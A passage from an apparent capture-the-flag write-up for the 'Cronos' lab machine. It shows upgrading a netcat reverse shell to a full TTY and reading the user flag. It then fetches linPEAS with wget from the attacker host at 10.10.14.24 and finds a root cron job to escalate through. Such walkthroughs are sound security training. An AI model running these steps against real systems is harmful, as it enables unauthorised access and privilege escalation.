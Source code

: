 I’ll do the shell upgrade:

```

www-data@cronos:/var/www/admin$ python -c 'import pty;pty.spawn("bash")'
python -c 'import pty;pty.spawn("bash")'
www-data@cronos:/var/www/admin$ ^Z
[1]+  Stopped                 nc -lnvp 443
root@kali# stty raw -echo
root@kali# nc -lnvp 443  # i entered fg
                                                       reset
www-data@cronos:/var/www/admin$

```

And can grab `user.txt` from the only homedir:

```

www-data@cronos:/home/noulis$ cat user.txt
51d23643************************

```

## Priv: www-data –> root

### Enumeration

I’ll go into my local [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) directory and start a Python3 webserver. Then I can grab it from Cronos:

```

www-data@cronos:/dev/shm$ wget 10.10.14.24/linpeas.sh
--2020-04-08 15:22:05--  http://10.10.14.24/linpeas.sh
Connecting to 10.10.14.24:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 159864 (156K) [text/x-sh]                                         
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 156.12K  --.-KB/s    in 0.05s

2020-04-08 15:22:05 (2.98 MB/s) - 'linpeas.sh' saved [159864/159864]  

```

Now run it, and in the Cron jobs section, the last line is red:

```

www-data@cronos:/dev/shm$ bash linpeas.sh                                                                 ...[snip]...
[+] Cron jobs
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#scheduled-jobs
-rw-r--r-- 1 root root  797 Apr  9  2017 /etc/crontab 
...[snip]...
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
...[snip]...

```
